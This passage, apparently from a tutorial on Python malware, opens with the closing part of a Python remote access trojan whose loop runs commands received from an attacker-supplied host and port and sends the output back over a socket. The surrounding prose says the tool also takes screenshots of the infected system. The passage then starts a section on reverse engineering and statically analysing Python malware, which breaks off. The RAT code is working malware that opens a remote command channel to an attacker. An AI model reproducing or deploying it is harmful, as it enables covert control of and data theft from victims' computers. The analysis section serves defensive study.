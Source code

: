 ```python
            else:
                output = self.execute_command(command)
                self.socket.send(output)
        self.socket.close()


def main():
    # Setting ASCII art
    ascii_art = figlet_format('RAT', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple RAT written on Python.')
    parser.add_argument('-h', '--host', type=str, required=True, help='Host IP (attacker IP) '
                                                                      'to receive connection.')
    parser.add_argument('-p', '--port', type=int, required=True, help='Port to receive the connection.')
    args = parser.parse_args()

    # Calling the RAT class and its methods
    rat = RAT(host=args.host, port=args.port)
    rat.connect()
    rat.run()


if __name__ == '__main__':
    main()
```


This RAT allows remote command execution and can take screenshots of the infected system. In a real-world scenario, a RAT would likely have many more features, such as keylogging, file transfer, and webcam access


### Reverse Engineering Python Code
----
Reverse engineering is the process of analyzing a system or program to understand its inner workings, often with the goal of identifying vulnerabilities, improving security, or developing compatible systems. When it comes to Python code, reverse engineering can be particularly challenging due to the dynamic nature of the language and the various obfuscation techniques that can be employed.

#### Techniques for Analyzing and Deconstructing Python-based Malware
---

1. Static Analysis: Static analysis involves examining the code without executing it. For Python, this often starts with analyzing the source code if available, or decompiling bytecode if only the `.pyc` files are present.

a) Source Code Analysis: If you have access to the source code, you can directly inspect it. Look for:
